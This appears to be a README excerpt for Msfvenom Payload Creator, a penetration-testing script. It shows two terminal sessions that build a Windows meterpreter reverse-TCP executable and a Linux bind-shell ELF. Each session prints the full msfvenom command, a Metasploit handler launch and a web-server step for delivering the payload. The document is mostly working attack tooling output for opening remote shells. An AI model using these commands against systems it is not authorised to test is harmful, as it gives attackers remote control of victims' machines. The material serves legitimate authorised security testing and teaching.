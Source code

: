 ```
root@kali:~#
```


## Example \#1 (Windows, Fully Automated Using Manual IP)

```bash
root@kali:~# bash mpc.sh windows 192.168.1.10
 [*] Msfvenom Payload Creator (MPC v1.4)
 [i]   IP: 192.168.1.10
 [i] PORT: 443
 [i] TYPE: windows (windows/meterpreter/reverse_tcp)
 [i]  CMD: msfvenom -p windows/meterpreter/reverse_tcp -f exe \
  --platform windows -a x86 -e generic/none LHOST=192.168.1.10 LPORT=443 \
  > '/root/windows-meterpreter-staged-reverse-tcp-443.exe'

 [i] File (/root/windows-meterpreter-staged-reverse-tcp-443.exe) already exists. Overwriting...
 [i] windows meterpreter created: '/root/windows-meterpreter-staged-reverse-tcp-443.exe'

 [i] MSF handler file: '/root/windows-meterpreter-staged-reverse-tcp-443-exe.rc'
 [i] Run: msfconsole -q -r '/root/windows-meterpreter-staged-reverse-tcp-443-exe.rc'
 [?] Quick web server (for file transfer)?: python -m SimpleHTTPServer 8080
 [*] Done!
root@kali:~#
```


## Example \#2 (Linux Format, Fully Automated Using Manual Interface and Port)

```bash
root@kali:~# ./mpc.sh elf bind eth0 4444 verbose
 [*] Msfvenom Payload Creator (MPC v1.4)
 [i]        IP: 192.168.103.183
 [i]      PORT: 4444
 [i]      TYPE: linux (linux/x86/shell/bind_tcp)
 [i]     SHELL: shell
 [i] DIRECTION: bind
 [i]     STAGE: staged
 [i]    METHOD: tcp
 [i]       CMD: msfvenom -p linux/x86/shell/bind_tcp -f elf \
  --platform linux -a x86 -e generic/none  LPORT=4444 \
  > '/root/linux-shell-staged-bind-tcp-4444.elf'

 [i] File (/root/linux-shell-staged-bind-tcp-4444.elf) already exists. Overwriting...
 [i] linux shell created: '/root/linux-shell-staged-bind-tcp-4444.elf'

 [i] File: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, corrupted section header size
 [i] Size: 4.0K
 [i]  MD5: eed4623b765eea623f2e0206b63aad61
 [i] SHA1: 0b5dabd945ef81ec9283768054b3c22125aa9185

 [i] MSF handler file: '/root/linux-shell-staged-bind-tcp-4444-elf.rc'
 [i] Run: msfconsole -q -r '/root/linux-shell-staged-bind-tcp-4444-elf.rc'
 [?] Quick web server (for file transfer)?: python -m SimpleHTTPServer 8080
 [*] Done!
root@kali:~#
```
